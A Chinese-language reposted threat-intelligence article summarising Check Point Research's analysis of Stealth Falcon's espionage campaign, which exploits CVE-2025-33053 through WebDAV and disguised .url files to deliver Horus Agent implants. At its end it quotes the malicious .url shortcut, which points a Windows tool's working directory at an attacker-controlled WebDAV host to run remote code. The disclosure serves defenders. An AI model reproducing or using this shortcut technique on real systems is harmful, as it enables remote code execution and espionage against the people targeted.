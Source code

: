 #  CVE-2025-33053，Stealth Falcon 和 Horus：中东网络间谍活动传奇  
 Ots安全   2025-06-12 03:57  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
本文深入探讨了Stealth Falcon高级持续性威胁（APT）组织近期发起的网络间谍活动。该活动利用了微软WebDAV协议中的零日漏洞（CVE-2025-33053），通过精心伪装的.url文件从受控服务器执行恶意软件。Check Point Research于2025年6月10日确认了这一漏洞，并由微软在当月补丁星期二更新中发布修复程序。文章特别分析了攻击者如何通过模拟政府招标的钓鱼邮件进行初始渗透，并针对Sophos安全软件实施创新的“进程空心化”攻击技术，将恶意代码注入合法进程（如Sophos.exe）。结合Sophos Central Admin的威胁防护文档和2024年PCRisk关于钓鱼攻击趋势的研究（指出此类感染在24小时内激增），本文揭示了国家支持网络威胁日益复杂的特点。本文旨在为网络安全从业者提供深入见解，以应对此类高级攻击。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafQoxRH2H6ico44FhKibcbnuA9ZyOhJXmmCs9AqryeeZiaayzjYKHN73IgBtmy8vqee3vEPx3MYbuRRw/640?wx_fmt=png&from=appmsg "")  
  
主要发现  
- Check Point Research (CPR) 发现了 APT 组织Stealth Falcon发起的一项新攻击活动。该攻击使用了一个利用零日漏洞 ( CVE-2025-33053 ) 的 .url 文件，从攻击者控制的 WebDAV 服务器执行恶意软件。  
  
- CVE-2025-33053 漏洞允许通过操纵工作目录来执行远程代码。继 CPR 的负责任披露之后，微软于 2025 年 6 月 10 日发布了补丁，作为 6 月补丁星期二更新的一部分。  
  
- Stealth Falcon 的活动主要集中在中东和非洲，其目标包括土耳其、卡塔尔、埃及和也门的政府和国防部门。  
  
- Stealth Falcon 继续使用鱼叉式网络钓鱼电子邮件作为感染方法，通常包含利用WebDAV和LOLBins部署恶意软件的链接或附件。  
  
- Stealth Falcon 部署基于开源红队框架Mythic 的定制植入程序，这些植入程序源自现有代理或我们称之为Horus Agent 的私有变体。这种定制不仅引入了反分析和反检测措施，还能在最终交付更高级的有效载荷之前验证目标系统。  
  
- 此外，该威胁组织还采用了多个以前未公开的自定义有效载荷和模块，包括键盘记录器、被动后门和DC Credential Dumper。  
  
介绍  
  
2025年3月，Check Point Research 发现一起针对土耳其一家国防公司的网络攻击企图。威胁行为者使用一种此前未公开的技术，通过操纵合法内置 Windows 工具的工作目录来执行托管在其控制的 WebDAV 服务器上的文件。在负责任地披露漏洞后，微软已将该漏洞编号为CVE-2025-33053，并于2025年6月10日发布了补丁，作为其6月补丁星期二更新的一部分。根据攻击的战术、技术和程序 (TTP)、基础设施、代码重叠以及目标概况，我们将此活动归咎于 Stealth Falcon 威胁组织。  
  
Stealth Falcon（也称为 FruityArmor）是一个高级持续性威胁 (APT) 组织，以进行网络间谍活动而闻名，至少自 2012 年以来一直活跃。多年来，据观察，  
> Stealth Falcon获取零日漏洞并使用复杂的定制有效载荷，在其网络间谍活动中找到针对中东各地实体的目标。  
  
> https://www.kaspersky.com/about/press-releases/kaspersky-lab-uncovers-windows-zero-day-exploited                               https://www.welivesecurity.com/en/eset-research/stealth-falcon-preying-middle-eastern-skies-deadglyph/  
  
  
在本报告中，我们分析了 Stealth Falcon 近年来使用的感染链，包括利用基于 WebDAV 的 CVE-2025-33053 漏洞来传播 Horus Agent，这是一种为 Mythic C2（命令与控制）开源框架构建的定制植入体。Horus Agent 以埃及天神荷鲁斯（Horus）的名字命名，荷鲁斯通常被描绘成鹰头人形，是该组织先前使用的定制 Apollo 植入体的进化版。我们还重点介绍了该威胁组织高级间谍工具集中一些此前未披露的定制后利用工具和模块的功能。  
  
感染链：CVE-2025-33053 和 .url 文件  
  
TLM.005_TELESKOPIK_MAST_HASAR_BILDIRIM_RAPORU.pdf.url一个名为（土耳其语： ）的文件TLM.005 TELESCOPIC MAST DAMAGE REPORT.pdf.url由一位与土耳其一家大型国防公司相关的消息人士提交至 VirusTotal。根据其名称模式以及 Stealth Falcon 攻击的历史记录，该 .url 文件很可能是以网络钓鱼邮件中的存档附件形式发送的。文件内容如下：  
  
```
[InternetShortcut]URL=C:\Program Files\Internet Explorer\iediagcmd.exeWorkingDirectory=\\summerartcamp[.]net@ssl@443/DavWWWRoot\OSYxaOjrShowCommand=7IconIndex=13IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exeModified=20F06BA06D07BD014D
```  
  